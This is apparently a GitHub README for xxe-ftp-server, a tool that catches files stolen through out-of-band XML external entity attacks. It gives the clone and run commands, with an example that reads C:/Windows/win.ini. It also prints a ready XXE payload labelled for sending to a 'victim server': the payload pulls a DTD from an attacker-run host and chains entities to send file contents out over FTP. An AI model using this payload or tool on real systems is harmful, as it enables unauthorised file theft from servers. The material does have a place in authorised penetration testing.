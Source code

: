 # xxe-ftp-server

xxe oob receive file via web and ftp server

![xxe-ftp-server](./images/xxe-ftp-server.png)
## Installation
```
git clone https://github.com/f3lze3/xxe-ftp-server
```

## Usage:

### Step 1:

**run script:**

```
python xxe-ftp-server.py -l <lhost> -p <lport> -b <bhost> -f <file path>
```

**such as:**

```
python xxe-ftp-server.py -l 0.0.0.0 -p 21 -b 127.0.0.1 -f C:/Windows/win.ini
```

### Step 2:

**send xxe payload to victim server:**

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
<!ENTITY % dtd PUBLIC "-//OXML/XXE/EN" "http://127.0.0.1:21">
 %dtd;%ftp;%send;
 ]>
<ANY>xxe</ANY>
```

`127.0.0.1:21` is `public-server-ip` and `ftp-server-bind-port`

## Reference

[GitHub - LandGrey/xxe-ftp-server: xxe oob receive file via web and ftp server](https://github.com/LandGrey/xxe-ftp-server/)

 

